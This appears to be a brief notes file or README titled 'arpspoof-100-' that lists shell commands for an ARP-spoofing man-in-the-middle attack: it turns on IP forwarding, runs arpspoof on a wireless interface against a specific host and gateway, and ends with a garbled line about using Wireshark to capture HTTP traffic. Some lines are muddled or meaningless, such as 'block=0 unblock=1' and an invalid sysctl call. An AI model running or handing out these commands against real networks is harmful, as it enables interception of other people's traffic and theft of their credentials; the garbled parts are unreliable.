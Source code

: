 # arpspoof-100-

echo 1>/proc/sys/net/ipv4/ip_forward

cat /proc/sys/net/ipv4/ip_forward

#Or

sysctl net.ipv4.ip_forward status
sysctl -w net.ipv4.ip_forward=1



block=0
unblock=1

arpspoof -i wlan0 -t 192.168.0.6 -r 192.168.0.1

wirsher tool into http hacked
